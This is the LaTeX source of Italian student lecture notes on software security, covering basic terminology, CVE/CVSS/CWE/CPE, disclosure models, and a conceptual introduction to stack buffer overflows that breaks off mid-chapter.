%\documentclass[a4paper, 14pt, oneside]{extbook}
\documentclass[12pt]{report}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[italian]{babel}
\usepackage{geometry}
\usepackage{courier}
\usepackage[bookmarks]{hyperref}
\newgeometry{
left=   1.5 in,
bottom= 1.5 in,
right=  1 in,
top=    1 in
}

%Algorithm
\usepackage{algorithm}
\usepackage[noend]{algpseudocode}


%Page Style
\usepackage{setspace}

%Other
\usepackage{comment}
\usepackage{amsmath}
\usepackage{booktabs}
\usepackage{tabularx}

%Testo riempitivo
\usepackage{lipsum}

%Titolo indice
\renewcommand*\contentsname{Indice}

%Inclusione bibliografia nell'indice
\renewcommand\bibname{Bibliografia}
\usepackage[nottoc,notlot,notlof]{tocbibind}

\usepackage{fancyhdr}

% Grafica
\usepackage{graphicx,pstricks}
%\usepackage{graphics}
\graphicspath{{img/}}
\usepackage{subcaption} % Necessario per creare le sotto-figure
\usepackage{makecell}

%Codice
\usepackage{listings}
\usepackage{xcolor}
\usepackage{tcolorbox}

% Stile per il codice C
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{codeblue}{rgb}{0.0, 0.0, 0.6}
\definecolor{codeteal}{rgb}{0.0, 0.5, 0.5} % Colore extra per i tipi custom

% 2. DEFINIAMO IL LINGUAGGIO (Prima dello stile)
% Creiamo "EmbeddedC" ereditando da "C" e aggiungendo i tipi
\lstdefinelanguage{EmbeddedC}{
    language=C,
    % Aggiungi qui i tuoi tipi. 
    % Nota: morekeywords aggiunge al set standard (blu), 
    % morekeywords=[2] crea un secondo set che possiamo colorare diversamente (teal)
    morekeywords=[2]{uint8_t, uint16_t, uint32_t, uint64_t, int8_t, int16_t, int32_t, int64_t, size_t, bool}
}

% 3. Configurazione dello stile grafico
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{codeblue}\bfseries, % Keywords standard (int, if, while) in BLU
    keywordstyle=[2]\color{codeteal}\bfseries, % I tuoi tipi (uint8_t) in TEAL (Verde acqua)
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=4,
    frame=single,
    rulecolor=\color{codegray},
    % Qui usiamo il NOSTRO linguaggio definito sopra
    language=EmbeddedC
}

\lstset{style=mystyle, escapeinside={(*@}{@*)}}

% Definizione di un box personalizzato chiamato "linuxcmd"
\newtcolorbox{linuxcmd}{
    colback=gray!5,       % Colore di sfondo (grigio molto chiaro)
    colframe=gray!30,     % Colore del bordo (grigio tenue)
    boxrule=0.5pt,        % Spessore del bordo (sottile come nell'immagine)
    arc=0mm,              % Raggio degli angoli (0mm = angoli vivi)
    left=5pt, right=5pt, top=5pt, bottom=5pt, % Spaziatura interna (padding)
    fontupper=\ttfamily   % Imposta il font interno come monospaziato (tipo terminale)
}

%No indentazione all'inizio dei paragrafi
\setlength{\parindent}{0pt}

% Package usati per il frontespizio
\usepackage{tikz}
\usepackage{pgf-pie}
\usepackage{pgfplots}
\pgfplotsset{width=7cm,compat=1.8}
\usetikzlibrary{patterns}

\setlength\headheight{44.2pt}

%\cfoot{\thepage}
\lhead[]{}
\rhead[]{\leftmark}

\pagestyle{fancy}{
\lhead{
\includegraphics[scale=0.3]{img/logo/hlogo.png}}
\rhead{\footnotesize{Titolo abbreviato come intestazione}}
}

\usepackage{amsmath}
\newcolumntype{C}{>{\centering\arraybackslash}X}

\begin{document}

%\setstretch{2.5} 
\doublespace

%\maketitle
\begin{titlepage}
\thispagestyle{empty}
\raggedright % Allinea a sinistra

\begin{tikzpicture}
\node[anchor=south west] at (4,0) {
\includegraphics[scale=0.75]{img/logo/logo_copertina_1}};
\node[anchor=south west] at (0,1.5) {
\includegraphics{img/logo/logo_copertina_2}};
\node[anchor=south west] at (0,0.5) {\textsf{Scuola Politecnica e delle Scienze di Base}};
\node[anchor=south west] at (0,0) {\textsf{Corso di Laurea in Ingegneria Informatica}};
\end{tikzpicture}

\vfill
{\large Appunti di Software Security}
\\[1cm]
{\large Anno Accademico 2025-26}
\\[5cm]

\begin{table}[h]
{\raggedright Professore}
\\
\textbf{Roberto Natella}
\end{table}


\begin{table}[h]
{\raggedright Studente}
\\
\textbf{Benito Cervone M63001747}
\end{table}

\end{titlepage}
%\frontmatter

{\setstretch{1.5}
\tableofcontents
}

%\mainmatter
\chapter{Concetti chiave}
\section{Terminologia di base}
Di seguito viene riportata un po' di terminologia tipica dell'ambito della 
cybersecurity.

\textbf{Asset}: è una risorsa che intendiamo proteggere, in questo corso faremo
più specificamente riferimento a dati, codice sorgente e proprietà intellettuale
come assets principali.

\textbf{Triade CIA}: L'obiettivo della cybersecurity è garantire la riservatezza,
l'integrità e la disponibilità (triade CIA) degli assets contro varie minacce.

\begin{itemize}
    \item \textbf{Confidenzialità}: La proprietà che le informazioni non siano rese
    disponibili o svelate ad individui, entità o processi non autorizzati. Al
    centro di questa definizione trovo l'informazione. Terze parti è un termine generico che
    viene declinato in individui, entità o processi.
    \item \textbf{Integrità}: La proprietà che i dati non siano stati modificati, distrutti
    o persi in modo non autorizzato o accidentale.
    \item \textbf{Disponibilità}: La proprietà di un sistema e delle sue risorse di essere 
    accessibili e di performare rispettando le specifiche per cui è stato progettato.
\end{itemize}

\textbf{Threat}: un'azione o un evento potenzialmente negativo (accidentale o 
intenzionale) causato da una vulnerabilità che comporta un impatto indesiderato
su un sistema informatico o un'applicazione. Chi sono gli attori dietro un Threat
intenzionale?

\begin{itemize}
    \item \textbf{State-sponsored}: agenzie sponsorizzate dagli stati, sono 
    organizzazioni governative. Cyberattacchi che hanno lo scopo di mettere in
    difficoltà uno stato nemico. Il DDoS è in genere l'attacco più comune ma non è il 
    solo, ci sono altri attacchi come i wiper (distrugge le informazioni su un pc), 
    creare disinformazione, ecc. Un esempio di attacco condotto da organizzazioni
    state-sponsored è \textit{NotPetya} il quale sfruttava una vulnerabilità di Windows
    (\textit{Eternal Blue}) per infettare i dispositivi target. In genere i Threats di questa
    categoria sono definiti \textbf{persistenti} poichè i malware cercano di 
    espandersi nella rete quanto più velocemente e, spesso, silenziosamente possibile.
    Molto spesso gli stati nemici dello stato attaccante sono già stati ingettati
    da malware, lo stato attaccante quindi aspetterà solo il momento giusto per far
    "esplodere" il virus.
    \item \textbf{Cybercriminali}: gruppi di persone motivate da uno scopo economico. 
    Monetizzano gli attacchi rubando dati privati come carte di credito e 
    vendendoli ad esempio sul dark web oppure chiedendo direttamente un 
    riscatto alla vittima.
    \item \textbf{Hacktivisti}: gruppi di persone motivati da ideali politici, 
    sociali, religiosi, economici, ambientali, ecc. 
    \item \textbf{Hackers-for-hire}: hacker che lavorano per altri gruppi di 
    attaccanti. Ad esempio si può trattare di persone che scrivono effettivamente 
    il malware per poi venderlo ad altri gruppi che eseguono l'attacco. Il 
    loro modello di business permette loro di prendere le distanze dai reati 
    commessi dai loro clienti.
\end{itemize}

\textbf{Vulnerabilità}: L'esistenza di una debolezza, di un errore di 
progettazione o di implementazione che può portare a un evento imprevisto e 
indesiderato che compromette la sicurezza del sistema informatico, della rete, 
dell'applicazione o del protocollo in questione. Possiamo distinguere quattro 
tipi di vulnerabilità:

\begin{itemize}
    \item Vulnerabilità di \textbf{design}: un'applicazione pensata male, come 
    molti protocolli storicamente usati nelle reti.
    \item Vulnerabilità \textbf{software}: si tratta di errori di programmazione
    (bug), tali errori possono portare ad effetti noti come: buffer overflow, race 
    conditions, input validation non corretta o mancante.
    \item Vulnerabilità di \textbf{misconfigurazione}: si tratta di configurazione 
    errata dei sistemi, spesso perchè si lasciano alcune opzioni di default in 
    applicazioni molto complesse (come \textit{WordPress}).
    \item Vulnerabilità dovute agli \textbf{umani}: esempi noti riguardano una
    gestione inadeguata delle password, utilizzo di software obsoleto o non autorizzato,
    clic su link e allegati sospetti, ecc.
\end{itemize}

\textbf{Attack vector}: Un vettore di attacco è un percorso o un mezzo 
attraverso il quale un aggressore può ottenere l'accesso a un computer per 
eseguire un codice dannoso (\textbf{payload}) o causare un danno. Esempi 
di vettori di attacco sono: e-mail dannose, allegati, worm, pagine web, download, inganni
(noti anche come \textit{ingegneria sociale}), una shell locale.

\textbf{Exploit}: Un exploit è un programma, un blocco di dati o una sequenza di
comandi che sfrutta una vulnerabilità.

\textbf{Zero day}: Lo zero day è proprio quella finestra temporale in cui un 
attaccante scopre la vulnerabilità, il vendor scopre successivamente la 
presenza della vulnerabilità e deve quindi ricorrere ai ripari (la finestra 
termina proprio quando il vendor rilascia la patch che fixa la vulnerabilità). 

\begin{figure}[H]
    \centering
    
\includegraphics[width=1.0\linewidth]{img/capitolo1/zeroday.png}
    \label{fig:zeroday}
\end{figure}

Le vulnerabilità zero-day sono quindi sconosciute ai responsabili della 
sicurezza e non esistono misure di mitigazione disponibili. D'altro canto le 
vulnerabilità note possono essere comunque sfruttate anche dopo la loro individuazione, 
sebbene con un impatto minore.

\section{CVE}
Le vulnerabilità vengono rese pubbliche online. Per evitare duplicazioni di 
lavoro e consentire la condivisione dei dati, il MITRE ha introdotto il 
sistema Common Vulnerabilities and Exposures (\textbf{CVE}).

Si tratta di un database popolato da tantissime vulnerabilità scoperte. Ogni 
volta che qualcuno trova una nuova vulnerabilità si procede ad associarle un 
identificativo e l'anno in cui essa è stata scoperta.

\begin{gather*}
    \text{Formato: CVE-YEAR-NUMBER} \\
    \text{Esempio: CVE-2014-0160 ("Heartbleed")}
\end{gather*}

Nell'esempio riportato vediamo la vulnerabilità nota come \textit{Heartbleed}: si
tratta di una vulnerabilità di tipo buffer overflow che riguardava OpenSSL v.1.0.1.
Essa è stata dunque registrata dal CVE nel 2014 con identificativo 0160.

Ciascuna istanza CVE include le seguenti informazioni:

\begin{itemize}
    \item Una descrizione della vulnerabilità
    \item Un punteggio CVSS (gravità della vulnerabilità)
    \item Un CWE (il tipo o la famiglia della vulnerabilità)
    \item Un elenco di CPE (prodotti interessati dal CVE)
    \item Riferimenti (link a exploit "proof-of-concept", bollettini dei fornitori)
\end{itemize}

\subsection{CVSS}

Il Common Vulnerability Scoring System (\textbf{CVSS}) è un sistema utilizzato per 
quantificare la gravità di una vulnerabilità. La scala va da 1 a 10. 
Ci sono vari criteri per stabilire questo punteggio: 

\textbf{Base Metric Group}: “intrinseca” gravità della vulnerabilità,
indipendentemente dalla sua data di insorgenza e dai sistemi di destinazione.
Qui si valuta il vettore di attacco (Network, Adiacente, Locale, Fisico), la 
complessità dell'attacco, i requisiti, i privilegi richiesti e l'interazione
utente necessaria.

\textbf{Threat Metric Group}: (opzionale) si valuta lo stato attuale delle 
tecniche di exploit o la disponibilità di codice per una vulnerabilità. 
Chiaramente più è facile sfruttare una vulnerabilità, più alto è il punteggio 
di vulnerabilità.

\textbf{Environmental Metric Group}: (opzionale) gli analisti possono 
personalizzare il punteggio in base all'importanza delle risorse IT interessate
e ai controlli di sicurezza in atto. Si cerca di quantificare la perdita dei requisiti
richiesti dalla triade CIA, quindi si valuta la vulnerabilità in termini di perdita
di Confidenzialità, Integrità e Disponibilità.

Una volta ottenuti i punteggi dei Threat ed Environmental group, questi vengono
combinati con lo score del Base group al fine di ottenere il punteggio di gravità
definitivo.

\subsection{CWE}

Il \textbf{CWE} definisce un elenco di tipi di vulnerabilità (ovvero una 
categoria di vulnerabilità).

\begin{gather*}
    \text{CWE-120: Buffer Copy without Checking Size of Input}
\end{gather*}

Nell'esempio riportato capiamo quindi che con l'identificativo 120 andiamo a 
riferirci a tutte quelle vulnerabilità di tipo buffer overflow.

\subsection{CPE}

Il \textbf{CPE} è uno schema di denominazione strutturato per prodotti hardware e software.
Denominare con un nome standard un prodotto non è affatto banale in quanto spesso
lo stesso prodotto può avere più nomi creando così possibile ambiguità.

\begin{gather*}
    \text{Microsoft Windows 7 64-bit Service Pack 1}\\
    \text{cpe:/o:microsoft:windows\_7:-:sp1:x64}
\end{gather*}

Dove la "o" sta ad indicare che il prodotto in questione è un sistema operativo,
altre tipologie di prodotto vengono indicate con "a" nel caso di applicazione, "h"
nel caso di hardware.

\section{Divulgazione delle vulnerabilità}

Non esiste un approccio “perfetto” alla divulgazione delle vulnerabilità dato 
che tale processo coinvolge molte parti con interessi contrastanti. Prima tra 
tutti troviamo i \textbf{Vendors} i quali vogliono che la divulgazione avvenga solo dopo
aver patchato la vulnerabilità, gli \textbf{Users} chiaramente vorrebbero che le patch 
arrivino il prima possibile, infine i \textbf{Researchers} pubblicano velocemente
le vulnerabilità scoperte per ottenere credito e per motivare i Vendors a rilasciare
le dovute patch.

Vediamo le diverse tipologie di divulgazioni possibili:

\textbf{Full disclosure}: Le vulnerabilità vengono divulgate il più velocemente
possibile, senza restrizioni. In questo scenario i Researchers non si coordinano
con i Vendors quindi le vittime potenziali (Users) ne sanno tanto quanto chi potrebbe attaccarle.

\textbf{Vendor disclosure}: Le vulnerabilità vengono divulgate verso i Vendors dai
Researchers, ovviamente l'obiettivo del Researcher è anche quello di avere un compenso
economico.

\textbf{Coordinated disclosure}: Le vulnerabilità vengono divulgate verso i Vendors
dai Researchers; i Vendors hanno una finestra temporale (tipicamente 60-120 giorni)
per fixare la vulnerabilità. Allo scadere della finestra temporale i Researchers
divulgano pubblicamente la vulnerabilità.
Ci possono essere altre entità che fanno da tramite in questo processo, da citare
sono le \textbf{CSIRTs} (Computer Security Incident Response Teams) che fanno appunto da mediatore tra Vendors e Researchers.

\textbf{Non-disclosure}: Le vulnerabilità non vengono divulgate verso gli Users/Vendors,
potrebbero piuttosto essere vendute a terze parti.
\chapter{Buffer Overflow}

Per avere un buffer overflow abbiamo bisogno di:

\begin{itemize}
    \item Un buffer (area di memoria) a dimensione fissa, come un array.
    \item Dei dati da scrivere nell'array e almeno una parte di questi dati viene
    scritta al di fuori del buffer, di solito alla fine.
\end{itemize}

Se l'attacco va a buon fine allora l'attaccante può eseguire del codice arbitrario sulla macchina o anche
realizzare attacchi DoS poichè potrebbe far sì che l'applicativo non sia utilizzabile.

Un altro modo per chiamare buffer overflow è \textbf{buffer overruns}, in generale in base in che parte della memoria
viene allocato il buffer possiamo parlare di \textbf{stack overflow} o \textbf{heap overflow}. 

Il buffer overflow è uno dei primi tipi di attacchi della storia dell'informatica, se pensiamo al \textit{The Morris
Worm}, questo era un tipo di \textbf{worm} (il quale si replica da una macchina all'altra) che sfruttava vulnerabilità di
tipo buffer overflow. Ancora oggi ci sono un sacco di buffer overflow.

I linguaggi di programmazione di sistema, in generale quelli di basso livello, sono intrinsecamente soggetti al
buffer overflow mentre quelli di più alto livello prevengono o fanno auto resize del buffer. Dobbiamo
considerare che l'utilizzo di linguaggi ad alto livello non è la soluzione contro gli attacchi di buffer overflow: 

\begin{itemize}
    \item ci sono contesti dove non è possibili utilizzare linguaggi di alto livello, pensiamo ad esempio alla
    scrittura di un modulo kernel.
    \item molte librerie di linguaggi di alto livello sono scritte con linguaggi di più basso livello. Se pensiamo ad
    esempio alle librerie per il machine learning di Python, queste sono scritte in C/C++.
\end{itemize}

Per vedere in che modo funziona il buffer overflow ripetiamo prima alcuni concetti di base C/C++, nello
specifico come funzionano le stringhe.
In primo luogo, dobbiamo ricordarci del carattere \textbf{\textbackslash0}, ovvero \textbf{carattere di terminazione} che non compare a
video. Se viene omesso questo byte si possono creare problemi nella lettura del buffer: il compilatore non sa
quando fermarsi.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/hello.png}
    \label{fig:hello}
\end{figure}

Vediamo un buffer di 6 caratteri dei quali i primi 5 sono la stringa “Hello” e poi c'è il terminatore che
possiede un byte pari a zero. Questo byte è detto \textbf{NUL character} ed è diverso da NULL; infatti, per non fare
confusione lo chiameremo NIL.

Altro aspetto è l'\textbf{allocazione di un array}: per allocare un buffer in C scriviamo la classica notazione per array
e nell'esempio abbiamo 10 caratteri di cui 9 al massimo sono disponibili e uno per il terminatore. Il linguaggio
C prevede che dobbiamo creare sempre un array di dimensione almeno pari a tale dimensione, ma lo
standard non dice nulla se ne allochiamo uno di dimensione minore.

Vediamo adesso un esempio della funzione \textbf{gets()} che legge da tastiera una stringa, e di come a livello di
codice esista una vulnerabilità di tipo buffer overflow.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\linewidth]{img/capitolo2/gets.png}
    \label{fig:gets}
\end{figure}

Quindi se scriviamo qualcosa con meno di 9 caratteri tutto va per il meglio, se ne usiamo di più il programma
ci restituisce segmentation fault e quindi il processo viene ucciso dal SO. Questo accade perché la funzione
\textit{gets()} non fa controlli sulla dimensione dell'input e questo causa una sovrascrittura delle locazioni di memoria
contigue al buffer allocato nello stack.

\section{Mappatura della memoria dei processi}

Quando eseguiamo un programma abbiamo a disposizione una memoria virtuale (quindi byte liberi) dove
può mettere tutti i suoi dati e tutto il suo codice che è fatta in questo modo:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/stack.png}
    \label{fig:stack}
\end{figure}

L'esempio è per uno spazio di memoria composto da $2^{32}$ byte per un totale di 4 GB (\textit{0xFFFFFFFF}).

\begin{itemize}
    \item \textbf{Area testo} (in verde): corrisponde ad una copia del programma
    che lanciamo. Generalmente è accessibile in sola lettura.
    \item \textbf{Area dati globali}: tutte le variabili dichiarate fuori dal
    main o dalle funzioni. Quest'area viene ulteriormente divisa in: \textbf{Global data inizializzati}
    e \textbf{Global data non inizializzati}.
    \item \textbf{Area heap}: usata quando usiamo funzioni come malloc() o new.
    \item \textbf{Area stack}: usata per la chiamata a sottofunzione e per il 
    salvataggio delle variabili locali.
\end{itemize}

\section{Stack overflow}

Concentriamoci per ora sullo stack overflow e per tale motivo dobbiamo capire come funziona lo stack.
Lo stack viene richiamato ogni volta che chiamiamo una funzione e nello stack vengono salvati:

\begin{itemize}
    \item L'indirizzo di ritorno ("da dove vengo").
    \item I parametri di chiamata (variabili di input).
    \item Le variabili locali (se vengono create dalla funzione).
    \item Il valore di ritorno pure sullo stack.
\end{itemize}

Vediamo un esempio dove sopra abbiamo un main in C e sotto il codice assembly.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/call.png}
    \label{fig:call}
\end{figure}

Possiamo quindi osservare che in primo luogo si fa un push sullo stack dei parametri in input e
successivamente si chiama la funzione “\textit{f}” (f è in realtà una label a cui è associata l'indirizzo della prima
istruzione della funzione a cui saltare). In realtà se la funzione avesse avuto anche il parametro di output,
sarebbe stato pushato in memoria spazio sufficiente per tale parametro prima dei parametri di input.
Osserviamo inoltre che i parametri di input per convenzione vengono pushati in ordine inverso. Abbiamo
quindi in questa immagine quattro push, perché si conta anche \textit{call} che fa una push sullo stack.

Tipicamente \textbf{lo stack cresce dal basso verso l'alto} (quindi per indirizzi
decrescenti), SP (stack pointer) indica la cima dello stack e l'indirizzo di ritorno
viene messo sopra i tre parametri. Quindi rifacendoci all'esempio precedente
avremo sullo stack la seguente allocazione:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/stack1.png}
    \label{fig:stack1}
\end{figure}

Vediamo ora una possibile implementazione della funzione f: questa possiede 
due buffer locali, la dimensione totale del buffer richiesto sarà da 15 
byte ed infatti il codice assembly userà una \textit{subl} con un valore 
pari alla somma delle due variabili locali. Il valore \$20 è in esadecimale 
ed è pari a 32 (il compilatore alloca più spazio di quello di cui ha bisogno).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/function.png}
    \label{fig:function}
\end{figure}

Lo \textbf{SP} viene fatto salire sopra a tutto e vengono collocati i due buffer, ma viene prima aggiunto il valore
associato all'old frame pointer, per poi aggiornare il registro del frame pointer; ovvero il registro \%\textit{ebp}, con
il suo nuovo valore dato dallo SP. Ricordiamo infatti che il \textbf{frame pointer (FP)} è un registro in cui viene salvato
l'indirizzo associato alla prima locazione liberà dove verranno allocate le variabili locali: questo è un registro
che consente di accedere in modo semplice allo \textbf{stack frame} (ovvero alla parte dello stack dove vengono
allocate le variabili locali).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/stack2.png}
    \label{fig:stack2}
\end{figure}

Comprendiamo che se ad esempio usiamo \textit{gets} per inserire un valore dentro a buffer2 allora ciò che accadrà
è che avremo un buffer overflow ovvero l'input fornito sfonda il buffer e quindi partendo dall'alto scende
fino alla base dello stack. Questo vuol dire che tutti i pezzi sotto vengono sovrascritti ed il punto critico che
stiamo modificando è il return value.

Se l'input viene forgiato ad arte allora comprendiamo che è possibile iniettare del codice all'interno del buffer
e modificare il return address per far si che questo punterà al codice iniettato che chiaramente verrà
eseguito. Un possibile risultato di un attacco sarà:

\begin{figure}[H]
    \centering
